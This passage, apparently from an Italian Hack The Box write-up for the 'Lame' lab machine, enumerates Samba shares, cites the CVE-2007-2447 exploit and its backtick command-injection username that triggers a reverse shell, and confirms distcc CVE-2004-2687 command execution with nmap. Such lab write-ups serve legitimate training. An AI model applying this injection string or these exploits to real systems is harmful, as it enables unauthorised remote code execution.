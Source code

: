 ```bash

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME

```

Vediamo che permessi abbiamo su queste cartelle

Utilizziamo smbamp:
(-H sta per HOST)
```bash
┌──(root㉿kali)-[/home/kali/htb/lame]
└─# smbmap -H 10.10.10.3   
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

Interessante sulla cartella tmp abbiamo permessi di scittura e lettura
Cercandosu google se la vesione di samba ha qualche vulnerabilità troviamo questa CVE 2007-2447
https://github.com/Un4gi/CVE-2007-2447

La lettura del codice ci dice che tutto ciò che fa lo script è eseguire il seguente comando,
dove "payload.encoded" sarebbe una shell inversa inviata alla nostra macchina d'attacco.

"/=`nohup " + payload.encoded + "`"

## **[[Port 3632 DISTCCD | Port 3632 DISTCC V1]]**

Cercando su google "distcc v1" rivela che questo servizio è vulnerabile a un'esecuzione di codice remoto e c'è uno script nmap che può verificarlo.

```bash
┌──(root㉿kali)-[/home/kali/htb/lame]
└─# nmap --script distcc-cve2004-2687 -p 3632 10.10.10.3
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 16:22 EDT
Nmap scan report for 10.10.10.3
Host is up (0.057s latency).

PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|       https://distcc.github.io/security.html
```